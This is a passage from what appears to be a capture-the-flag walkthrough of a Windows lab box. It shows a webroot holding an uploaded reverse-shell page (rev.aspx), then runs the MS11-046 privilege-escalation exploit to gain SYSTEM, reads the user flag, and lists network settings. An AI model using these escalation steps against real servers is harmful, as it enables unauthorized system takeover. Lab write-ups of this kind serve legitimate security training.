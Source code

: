 <br />

<br />
Navigate to the webroot and execute the binary.

{% raw %}
```sh
C:\inetpub\wwwroot>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of C:\inetpub\wwwroot

17/01/2025  04:27 ��    <DIR>          .
17/01/2025  04:27 ��    <DIR>          ..
18/03/2017  01:06 ��    <DIR>          aspnet_client
17/03/2017  04:37 ��               689 iisstart.htm
17/01/2025  04:27 ��           240.005 MS11-046.exe
17/01/2025  04:19 ��             2.760 rev.aspx
17/03/2017  04:37 ��           184.946 welcome.png
               4 File(s)        428.400 bytes
               3 Dir(s)   5.031.374.848 bytes free

C:\inetpub\wwwroot>MS11-046.exe
MS11-046.exe
```
{% endraw %}

<br />
Run whoami to confirm that we are SYSTEM.

{% raw %}
```sh
c:\Windows\System32>whoami
whoami
nt authority\system
```
{% endraw %}

<br />
Get the user.txt flag.

{% raw %}
```sh
C:\Users\babis\Desktop>type user.txt
type user.txt
<redacted>

C:\Users\babis\Desktop>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection 4:

   Connection-specific DNS Suffix  . : 
   IPv6 Address. . . . . . . . . . . : dead:beef::3c76:3140:5f71:34a2
   Temporary IPv6 Address. . . . . . : dead:beef::c9e0:845d:c742:b8af
   Link-local IPv6 Address . . . . . : fe80::3c76:3140:5f71:34a2%15
   IPv4 Address. . . . . . . . . . . : 10.10.10.5
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:6def%15
                                       10.10.10.2

Tunnel adapter isatap.{0B2931D6-69F8-4A00-8E64-237C531D469C}:
```